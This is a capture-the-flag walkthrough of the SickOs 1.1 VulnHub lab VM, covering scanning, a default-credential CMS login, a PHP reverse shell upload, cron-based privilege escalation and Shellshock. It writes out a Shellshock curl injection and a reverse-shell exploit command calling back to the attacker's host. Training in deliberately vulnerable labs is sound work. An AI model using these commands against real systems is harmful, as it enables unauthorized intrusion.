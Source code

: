 ## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```

## Solution

To find IP address of VM:

#### Sudo Netdiscover

![](Assets/1.png)

> IP address: 192.168.1.11

#### Port scan: Nmap -sC -sV -Pn -p- -A 192.168.1.11
![](Assets/2.png)

> Squid HTTP Proxy is running on port 3128 > Firefox Web proxy 192.168.1.11:3128 > Squid web server
 
#### Nikto: Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128 
![](Assets/3.png)

> /cgi-bin/status > vulnerable to `ShellShock`

#### Burp proxy 192.168.1.11 : 3128  >> 192.168.1.11/robots.txt
![](Assets/4.png)

> `Wolfcms` directory

#### Login page >> admin:admin
![](Assets/5.png)

> Logged in

#### Add IP and port to php Reverse shell
![](Assets/6.png)

> Added my own IP and port

#### Shell upload
![](Assets/7.png)

> Uploaded php reverse shell

#### Nc -nvlp 4444 & visited url of shell
![](Assets/8.png)

> got reverse shell

#### Visit /var/www/
![](Assets/9.png)

> `Wolfcms` directory and Read n Write permissions for `connect.py`

### Method 1: Using connect.py

#### Visit cron.d
![](Assets/10.png)

> Automated connect.py

#### Create payload with msfvenum 
![](Assets/11.png)

#### Echo payload to connect.py
![](Assets/12.png)

#### Nc -nvlp 7777
![](Assets/13.png)

> Got root

### Method 2: Using config.php

#### Config.php
![](Assets/14.png)

> Got password john@123

![](Assets/15.png)

> john@123 password worked >> Got shell

### Method 3: Get a shell using shellshock

curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"

Download 34900.py

Reverse shell: python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status


config.php

sudo



